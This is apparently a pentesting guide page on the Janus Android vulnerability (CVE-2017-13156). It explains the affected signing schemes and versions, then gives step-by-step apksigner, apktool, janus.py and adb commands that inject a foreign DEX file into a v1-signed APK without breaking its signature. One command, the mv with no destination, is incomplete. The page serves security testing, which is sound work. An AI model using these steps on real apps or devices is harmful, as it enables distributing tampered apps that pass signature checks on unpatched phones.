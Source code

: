 # Janus Vulnerability (CVE-2017-13156)

## Whats Janus Vulnerability

A serious vulnerability in Android allows attackers to inject a DEX file into an APK file without affecting the signatures.

## Details

1. &#x20;On device running android version 5.X & 6.X, Apk signature was verified using only v1 scheme Janus vulnerability was found in v1 signing scheme and google released a patch on 2017 December 01 to fix Janus on these android versions. so even though apk is signed only with v1 which can bem run on 5.x & 6.x, if 2017 December 01 patch is installed in the device Janus cannot be exploited.
2. After releasing the patch for Janus, Google released v2 signing scheme and prioritized device to use v2 scheme over v1 scheme if v2 was used along with v1 scheme but they did not integrate the patch into the system until android 8.1. This made possible to exploit Janus on android 7.x & 8.0 also, as long as 2017 December patch is not installed.
3. Applications signed with v2 or v3 along with v1 are also vulnerable to Janus if they are made to run on android versions 5.x & 6.x as it verifies only v1 scheme without installing the patch.
4. Finally v1 scheme was removed and V4 scheme has been introduced in Android 11, Applications that are only signed with v1 scheme will not run on Android 11

## How to Test

* [ ] &#x20;We use [apksigner](https://medium.com/mobis3c/setting-up-an-android-pentesting-environment-29991aa0c3f1#46c8) tool to find the signature schemes used by the application&#x20;

```bash
apksigner verify -verbose h5.apk
```

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption><p>apk  has been signed only with v1, no v2 or v3 signature</p></figcaption></figure>

* [ ] Use [apktool](https://medium.com/mobis3c/setting-up-an-android-pentesting-environment-29991aa0c3f1#37de) to find the min android version on which we can run this application&#x20;

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Application can be run on API Level 15(Android 4.0.4 Ice Cream Sandwich), so we can choose any device from <strong>5.x, 6.x, 7.x &#x26; 8.0</strong> to exploit it.</p></figcaption></figure>

```bash
apktool -s d h5.apk && cat h5/apktool.yml | grep minSdk
```

* [ ] Get classes.dex from any other apk&#x20;

```bash
apktool -s d WhatsApp.apk && mv WhatsApp/classes.dex
```

* [ ] To Inject this classes.dex file into our h5 application, we use this exploit code from [**VEO**’s repo](https://raw.githubusercontent.com/V-E-O/PoC/master/CVE-2017-13156/janus.py). Copy the code and create new file named **janus.py** and paste into it

```bash
python janus.py classes.dex h5.apk kal-h5.apk
```

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* [ ] &#x20;Install adb exploit

```
adb install h5.apk
adb install -r kal-h5.apk
```

## Automation

{% embed url="https://github.com/h0tak88r/j88nx" %}

```
# Basic APK analysis
go run main.go -apk path/to/your.apk

# Analysis with custom POC dex file
go run main.go -apk path/to/your.apk -dex path/to/poc.dex
```

## Resources

{% embed url="https://medium.com/mobis3c/exploiting-apps-vulnerable-to-janus-cve-2017-13156-8d52c983b4e0" %}
